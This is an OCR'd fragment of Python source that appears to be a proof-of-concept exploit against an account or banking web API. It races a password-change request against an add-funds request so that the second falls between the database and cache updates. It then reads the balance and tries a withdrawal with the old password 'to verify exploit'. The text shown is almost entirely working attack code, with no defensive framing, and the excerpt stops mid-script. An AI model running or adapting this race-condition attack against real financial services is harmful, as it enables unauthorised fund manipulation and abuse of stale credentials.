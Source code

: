          # Function to change password
         def change_password():
             response = db_session.post(
                 f"{base_url}/account/change-password",
                 json={
                     "current_password": password,
                     "new_password": "NewPassword123!"
                 }
             )
             return response
         
         # Function to add funds to account
         def add_funds():
             # This may read from cache while DB is being updated
             response = cache_session.post(
                 f"{base_url}/account/add-funds",
                 json={"amount": "1000.00"}
             )
             return response
         
         # Start password change (updates DB first, cache later)
         pwd_thread = threading.Thread(target=change_password)
         pwd_thread.start()
         
         # Small delay to ensure DB update has started
         time.sleep(0.1)
         
         # Add funds during the window between DB and cache update
         funds_thread = threading.Thread(target=add_funds)
         funds_thread.start()
         
         # Wait for both operations to complete
         pwd_thread.join()
         funds_thread.join()
         
         # Check account balance
         balance = cache_session.get(f"{base_url}/account/balance")
         print(f"Account balance response: {balance.status_code}")
         print(f"Balance details: {balance.text}")
         
         # Try to withdraw with both old and new password to verify exploit
         old_pwd_withdraw = db_session.post(
             f"{base_url}/account/withdraw",
             json={"amount": "500.00", "password": password}
         )
         